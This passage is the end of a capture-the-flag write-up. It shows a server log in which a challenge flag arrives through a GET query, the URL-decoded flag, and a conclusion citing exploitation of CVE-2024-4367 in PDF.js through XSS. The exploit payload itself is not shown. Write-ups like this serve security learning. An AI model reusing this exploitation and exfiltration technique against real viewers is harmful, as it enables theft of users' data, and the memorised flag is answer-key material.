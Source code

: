 **Finally, we should be able to get the flag!**
```shell
[...]
127.0.0.1 - - [10/Jun/2024 14:20:02] "GET /?flag=%7B%22flag%22%3A%22AKASEC%7BPDF_1s_4w3s0m3_W1th_XSS_%26%26_Fr33_P4le5T1n3_r0t4t333d_loooool%7D%22%7D HTTP/1.1" 200 -
127.0.0.1 - - [10/Jun/2024 14:20:02] "GET /?flag=%7B%22flag%22%3A%22AKASEC%7BPDF_1s_4w3s0m3_W1th_XSS_%26%26_Fr33_P4le5T1n3_r0t4t333d_loooool%7D%22%7D HTTP/1.1" 200 -
[...]
```

**URL decoded:**
```json
{"flag":"AKASEC{PDF_1s_4w3s0m3_W1th_XSS_&&_Fr33_P4le5T1n3_r0t4t333d_loooool}"}
```

- **Flag: `AKASEC{PDF_1s_4w3s0m3_W1th_XSS_&&_Fr33_P4le5T1n3_r0t4t333d_loooool}`**

## Conclusion

What we've learned:

1. Exploiting CVE-2024-4367 (PDF.js)